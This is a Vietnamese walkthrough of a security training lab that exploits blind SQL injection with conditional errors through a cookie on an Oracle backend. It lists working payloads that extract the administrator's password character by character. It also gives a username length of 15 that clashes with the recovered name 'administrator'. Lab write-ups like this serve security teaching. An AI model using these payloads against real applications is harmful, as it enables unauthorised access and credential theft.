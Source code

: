 # **Lab: Blind SQL injection with conditional errors**

>  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. 

>  The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. 

 > The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user. 

 >  To solve the lab, log in as the `administrator` user. 

# **Solution**

Thử kiểm tra qua trang web, ta thấy khi chèn sql qua URL hay sửa đổi giá trị của TrackingId đều không có thay đổi rõ ràng có thể thấy được.

Trường hợp này nên hướng đến sử dụng câu lệnh case chứa tác nhân gây lỗi cho database.

Tập trung khai thác ở phần cookie, sửa đổi giá trị TrackingId.

```
TrackingId=5ZF6pGT6mrcvPY4N
```

Bắt đầu thử thay đổi giá trị của `TrackingId`

```
TrackingId=5ZF6pGT6mrcvPY4Nss
```

Ta thấy khi thay đổi giá trị của `TrackingId` thì không có gì thay đổi trong response.

Thử gây lỗi trong cú pháp SQL:

```
TrackingId=5ZF6pGT6mrcvPY4N'
```

Khi thừa ra một dấu `'` trong câu truy vấn đã gây ra lỗi cú pháp ở backend và trả về mã lỗi 500.

```
TrackingId=5ZF6pGT6mrcvPY4N'|| (SELECT 'A') ||'
```

Sử dụng toán tử nối chuỗi `||` để thêm một lệnh `SELECT` thì thấy không hoạt động, có thể database là Oracle nên cần thêm FROM trong câu truy vấn.

```
TrackingId=5ZF6pGT6mrcvPY4N'|| (SELECT 'A' FROM DUAL) ||'
```

Đúng như suy đoán thì nó đã hoạt động, `response code = 200`.  
Tiếp theo cần xác nhận bảng users tồn tại.

```
TrackingId=5ZF6pGT6mrcvPY4N'|| (SELECT '' FROM random_table_name WHERE ROWNUM=1) ||'
-> 500
```

```
TrackingId=5ZF6pGT6mrcvPY4N'|| (SELECT '' FROM users WHERE ROWNUM=1) ||'
-> 200
```

Vì database là Oracle nên cần thêm điều kiện `WHERE ROWNUM=1` trong câu truy vấn nếu không thì Oracle sẽ không thực hiện câu truy vấn này và trả về lỗi.

Và dựa theo response code ta xác định được bảng uses tồn tại.  
Tiếp theo đó thì cần xác nhận 2 cột `username` và `password`.

```
TrackingId=5ZF6pGT6mrcvPY4N'|| (SELECT username FROM users WHERE ROWNUM=1) ||'
-> 200
```

```
TrackingId=5ZF6pGT6mrcvPY4N'|| (SELECT password FROM users WHERE ROWNUM=1) ||'
-> 200
```

Vậy là bảng `users` cũng tồn tại 2 cột tên là `username` và `password`.

Tiếp theo thì vẫn như phần trước, mình sẽ vần dùng `CASE` để kiểm tra điều kiện và kiểm tra mã lỗi để lấy kết quả. Cụ thể thì:

```
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM=1) ||'
-> 500
```

```
'|| (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM=1) ||'
-> 200
```

Okeyy, vậy là với phần truy vấn này ta có thể bắt đầu quá trình dò đoán. Bắt đầu với tên user nào..

```
'|| (SELECT CASE WHEN (LENGTH(username)=0) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM=1) ||'
```

Đoạn truy vấn trên dùng để kiểm tra độ dài của `username` nằm hảng 1 trong bảng `users`. Bằng việc thay đổi giá trị so sánh trong `WHEN` tới khi mã response là 500 thì đó là độ dài chính xác.

Yayyy, độ dài `username` này là 15

```
'|| (SELECT CASE WHEN (SUBSTR(username,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM=1) ||'
-> 500
```

```
'|| (SELECT CASE WHEN (SUBSTR(username,2,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM=1) ||'
-> 200
```

Để giải thích chi tiết, mình đang kiểm tra ký tự đầu tiên của hàng đầu tiên cột `username` trong bảng `users` có phải là `'a'` hay không. Nếu đúng thì `response code = 500`, nếu sai thì `response code = 200`. Từ việc thay đổi giá trị vị trí trong `SUBSTR()` và ký tự dùng để so sánh ta có thể dò ra `username` đầu tiên trong bảng `users`.

Vậy là qua quá trình Bruteforce trên thì ta lấy được tên `username` là `administrator`.

Có thể lặp lại phương pháp trên để tìm ra các username khác trong bảng `users`. Cần Count để tìm ra số lượng record có trong bảng và thay đổi giá trị ROWNUM để tìm ra từng `username`.  

Thực tế thì cũng có thể dùng phương pháp tương tự để tìm ra tên bảng users được chứa trong `all_tables` và tìm ra tên các cột bằng việc truy xuất vào `all_tab_columns`.  
Nhưng vì làm vậy thì wripteup sẽ khá dài :v

Vừa làm vừa viết writeup mà cái lab bị timeout mấy lần rồi, tui lười=)))

Okey tiếp tục nào. Vì mục tiêu của lab là chiếm tài khoàn `administrator` nên mình sẽ bỏ qua vụ tìm các username khác.

Tiếp theo là dò mật khẩu thui. Tương tự như việc bruteforce `username` thôi:

```
'|| (SELECT CASE WHEN (LENGTH(password)=0) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM=1) ||'
```

```
'|| (SELECT CASE WHEN (SUBSTR(password,1,1)='a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM=1) ||'
```

> password length = 20  
password = 1d37m9u6bppq8rb11w3l

DONE :)

![image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQiY5aOykC5OBcA5PeP5OeITBAx6s3vKlaKxDzau__KSljFdm5dSO-PR84I-5uXy0OoBqE&usqp=CAU)